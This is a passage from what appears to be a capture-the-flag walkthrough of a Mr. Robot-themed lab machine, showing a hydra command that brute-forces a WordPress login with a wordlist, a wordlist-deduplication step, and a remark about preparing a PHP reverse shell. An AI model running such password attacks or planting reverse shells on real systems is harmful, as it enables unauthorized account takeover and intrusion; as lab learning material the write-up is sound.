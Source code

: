 - ![](images/incorrect.png)

- ```Incorrect```  will be my flag.

- ``` hydra -vV -l Elliot -P fsocity.dic 192.168.56.103 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=incorrect'```


- It does take hell lot of time and I thought to sort the dictionary and list only the unique entry. Gosh! I wasted a hell lot of time. However, no worry!

- ```sort fosocity.dic | uniq | tee fosocity-mini.txt```

- File size reduced drastically.

- Yet it will surely take sometime, so why not I prepare a PHP reverse shell ;)  

- ![](images/mini.png)